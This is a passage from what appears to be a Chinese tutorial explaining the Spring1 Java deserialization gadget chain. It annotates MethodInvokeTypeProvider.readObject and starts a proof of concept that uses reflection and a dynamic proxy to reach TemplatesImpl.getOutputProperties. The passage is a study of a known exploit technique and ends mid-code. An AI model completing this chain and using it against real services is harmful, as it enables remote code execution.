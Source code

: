 ```java
    public Object getSource() {
        return null;
    }
	// 反序列化方法
    private void readObject(ObjectInputStream inputStream) throws ...... {
        // 反序列化恢复默认字段值，(恢复序列化时的provider、methodName、index字段)
        inputStream.defaultReadObject();
        // 从TypeProvider.getType() 中搜索一个叫做 methodName 这个方法名的方法
        // 假设methodName的值为：getOutputProperties，这个就是我们想要调用的方法
        // 那么就是从TypeProvider中搜索getOutputProperties方法
        Method method = ReflectionUtils.findMethod(this.provider.getType().getClass(), this.methodName);
        // 调用provider.getType()中的method方法
        this.result = ReflectionUtils.invokeMethod(method, this.provider.getType());
    }
}
```

请先阅读我在`readObject`中留的注释，这样才方便后续的理解......

那么如果我们能让`this.provider.getType()`的结果是一个`TemplatesImpl`对象，那么通过`ReflectionUtils.invokeMethod("getOutputProperties", TemplatesImpl)`即可触发恶意代码。

在构造之前，我们得先知道`this.provider.getType()`返回回来的是个什么东西。

该方法的接口定义如下：

```java
static interface TypeProvider extends Serializable {

    /**
     * Return the (possibly non {@link Serializable}) {@link Type}.
     */
    Type getType();

    /**
     * Return the source of the type or {@code null}.
     */
    Object getSource();
}
```

如果我们想让`getType()`方法执行之后能得到一个`TemplatesImpl`对象。这几乎是不可能的，而Spring1链的挖掘者提供了一种动态代理思路来完成这个构造。

我们需要代理一个`TypeProvider`接口的一个动态代理实现，如果触发这个动态代理的`getType`方法之后能返回一个`TemplatesImpl`对象。

此时，我们可以先按照这个思路构造这样的一段残缺的POC出来了。

```java
public static void main(String[] args) throws Exception {
    // -----------------关注的重点在这儿------------------
    Class<?> typeProvider = Class.forName("org.springframework.core.SerializableTypeWrapper$TypeProvider");
    // 此时我们的xxxxxxx还不知道怎么构建
    Object typeProviderProxy = Proxy.newProxyInstance(Spring1.class.getClassLoader(), new Class[]{typeProvider}, xxxxxxxxx);


    // -----------------这段代码只是为了创建MethodInvokeTypeProvider实例-------------------
    Class<?> methodInvokeTypeProvider = Class.forName("org.springframework.core.SerializableTypeWrapper$MethodInvokeTypeProvider");
    Constructor<?> mitpCtor = methodInvokeTypeProvider.getDeclaredConstructors()[0];
    mitpCtor.setAccessible(true);
    // 把构建好的动态代理传给MethodInvokeTypeProvider内部的provider属性
    final Object mitp = mitpCtor.newInstance(typeProviderProxy, Object.class.getMethod("getClass", new Class[] {}), 0);
    final Field field = mitp.getClass().getDeclaredField("methodName");
    field.setAccessible(true);
```